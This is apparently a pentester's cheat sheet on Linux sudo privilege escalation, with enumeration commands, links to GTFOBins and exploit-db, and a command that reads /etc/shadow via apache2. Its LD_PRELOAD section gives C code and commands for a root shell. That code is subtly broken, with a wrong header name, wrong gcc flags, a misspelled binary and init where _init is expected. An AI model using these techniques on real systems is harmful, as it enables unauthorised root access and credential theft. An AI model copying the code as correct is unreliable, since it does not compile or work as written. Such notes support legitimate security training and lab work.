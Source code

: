 ## Sudo

Allow us to run command as root.

#### Sudo shell Escaping

`sudo -l`
`cat /etc/sudoers`
`sudo -V`
[GTFOBins](https://gtfobins.github.io/)

[Linux PrivEsc playground - tryhackme](https://tryhackme.com/room/privescplayground)

* * *

#### Escalation via Intended Functionality

For example apache and we may not have this GTFOBins but we have sudo. So we search in google for apache "sudo privelege escalation". Then we may get some results. For example `sudo apache2 -f /etc/shadow`.

[wget](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

* * *

#### Escalation via LD_PRELOAD

```C
#include<stdio.h>
#include<sys/type.h>
#include<stdlib.h>

void init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

`gcc -fPIC -share -o shell.so shell.c -nostartfile`
`sudo LD_PRELOAD=file/path/shell.so apche2`.


#### Examples of exploits

[CMS Made Simple](https://www.exploit-db.com/exploits/46635)
[CVE-2019-14287 Security Bypass](https://www.exploit-db.com/exploits/47502)
[CVE-2019-18634 Github](https://github.com/saleemrashid/sudo-cve-2019-18634)